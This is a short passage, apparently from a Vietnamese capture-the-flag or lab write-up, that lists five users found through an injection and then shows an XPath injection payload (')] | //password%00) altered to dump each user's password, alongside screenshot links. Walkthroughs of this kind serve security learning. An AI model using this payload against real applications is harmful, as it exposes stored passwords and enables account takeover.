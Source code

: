 - Thử vào ta được 5 users:

![1](img/61/Screenshot%20from%202023-02-01%2021-26-57.png)

- Sửa payload để xem pw của từng user:

```
')] | //password%00
```

![1](img/61/Screenshot%20from%202023-02-01%2021-28-48.png)
